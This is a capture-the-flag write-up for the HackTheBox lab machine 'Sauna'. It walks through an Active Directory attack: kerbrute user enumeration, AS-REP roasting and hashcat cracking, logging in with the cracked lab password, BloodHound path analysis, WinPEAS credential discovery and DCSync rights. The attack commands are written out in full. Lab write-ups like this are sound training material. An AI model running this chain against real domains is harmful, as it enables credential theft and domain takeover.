








# Sauna -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Sauna (HackTheBox)
**Author:** dsec
**Date:** 2024-11-25

---

## TL;DR

### Kerbrute found a valid user, AS-REP roasted fsmith's hash and cracked it. WinPEAS found creds for svc_loanmgr who had DCSync rights (GetChanges + GetChangesAll).
---
## Target info

- Host: `10.129.46.21`
- Domain: `egotistical-bank.local`
- Services discovered: `53`, `80`, `88`, `135`, `139`, `389`, `445`, `3268`, `3269`, `5985`
---
## Enumeration

```bash
nmap -p53,80,88,135,139,389,445,3268,3269,49667,49697 -sCV 10.129.46.21 -vvv
```




---
## User enumeration and AS-REP roast

Generated a username wordlist from names found on the site and ran kerbrute:

```bash
kerbrute userenum --dc 10.129.46.21 -d egotistical-bank.local formatted_name_wordlist.txt
```



Added `egotistical-bank.local` to `/etc/hosts`.

```bash
GetNPUsers.py egotistical-bank.local/ -no-pass -usersfile formatted_name_wordlist.txt
```

Got fsmith's AS-REP hash. Cracked it:

```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Password: `Thestrokes23`

```bash
nxc smb 10.129.46.21 -u 'fsmith' -p 'Thestrokes23' --users
```



---
## BloodHound

```bash
bloodhound-python -c All -ns 10.129.46.21 -d egotistical-bank.local -u fsmith -p 'Thestrokes23'
```

Shortest path to DA from owned principals:



fsmith has CanPSRemote.

```bash
nxc winrm 10.129.102.130 -u 'fsmith' -p 'Thestrokes23'
```



---
## WinPEAS -- svc_loanmgr creds

```bash
whoami /priv
```



Uploaded and ran winPEASx64.exe:



WinPEAS showed creds but the username spelling was wrong. Looked in BloodHound and found the actual user was `svc_loanmgr` -- creds worked for this account.

---
## DCSync

In BloodHound, first degree object control of svc_loanmgr:



GetChangesAll + GetChanges = DCSync.

---
## Lessons & takeaways

- Build username wordlists from names on the company website -- common naming conventions (first initial + last name) work
- WinPEAS can show creds with slightly wrong usernames -- cross-reference with BloodHound
- GetChanges + GetChangesAll on the domain object = DCSync capability
